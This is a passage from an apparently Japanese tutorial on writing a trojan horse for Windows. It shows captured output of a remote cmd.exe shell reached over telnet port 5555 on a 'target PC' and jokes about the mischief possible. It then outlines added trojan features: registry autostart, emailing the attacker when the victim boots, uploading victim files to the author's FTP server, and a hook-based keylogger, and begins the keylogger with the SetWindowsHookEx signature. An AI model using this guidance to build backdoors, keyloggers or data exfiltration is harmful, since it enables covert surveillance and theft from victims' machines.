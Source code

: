 (C) Copyright 1985-2008 Microsoft Corp.

c:\>dir
dir
 ドライブ C のボリューム ラベルは Windows XP 2008 です
 ボリューム シリアル番号は ZZ88-ZZDD です

 c:\ のディレクトリ

2008/12/08  21:07                 0 AUTOEXEC.BAT
2008/12/08  21:07                 0 CONFIG.SYS
2008/12/18  20:14    <DIR>          Documents and Settings
2008/12/08  19:46    <DIR>          My Music
2008/01/08  16:08    <DIR>          Program Files
2008/02/08  23:54    <DIR>          WINDOWS
2008/12/08  14:46    <DIR>          WinXP
               2 個のファイル                   0 バイト
               5 個のディレクトリ   9,999,999,999 バイトの空き領域

c:\>
-----

　見事、telnetからポート5555に接続しcmd.exeを利用できるようになっています。
これでDOSコマンドは打てるので、どんなイタズラができるのかはhelpコマンドを
参照してください(^^;


■0x07.) 機能追加を考える

　これで簡単なトロイの木馬はできたのですが、こうなると今度はいろいろと機
能を追加していこうと考えるはずです（考えますよね^^;）。トロイの機能といえ
ば、例えばファイルをＤＬできるようにするとか、キーログをとるとか、ターゲ
ットＰＣが起動したときにトロイが実行されるようにするとか、さらに自分宛に
ターゲットＰＣの起動を知らせるメールを送信するとか、まぁいろいろとありま
す。起動と同時にトロイを実行させるのはレジストリをいじればいいので簡単で
すね。メールも起動と同時にSMTPを利用して送信すればいいので問題ないです。
ファイルＤＬはFTPサーバとして動作させないといけないのでちょっとメンドクサ
イですがWinInetを利用してFTPクライアントとしてどこぞのFTPサーバ（例えば自
分のＨＰとか）にファイルをＵＰさせるようにすれば容易に実現できます。キー
ログもフックを使えばよいので特に難しくはないでしょう。

　ということでどれも実現できそうなものなのです、残念ながら全部実装するよ
うな根気や時間は私にはありません(^^;　ということで今回はこの中からひとつ
選びキーログを実装してみました。キーのログファイルもtypeコマンドで閲覧で
きるので以外にお買い得です（お買い得って...）。


■0x08.) KeyLogger

　キーログ機能はフックを使って実現します。キー入力をDLL側から監視すること
によってアプリケーション外のメッセージ（キー入力）を横取りします。よって
ここからはDLLの作成方法に関する知識が必要になります。SetWindowsHookEx関数
の定義は以下です。

-----
HHOOK SetWindowsHookEx(
  int idHook,
  HOOKPROC lpfn,
  HINSTANCE hMod,
  DWORD dwThreadId
);
-----
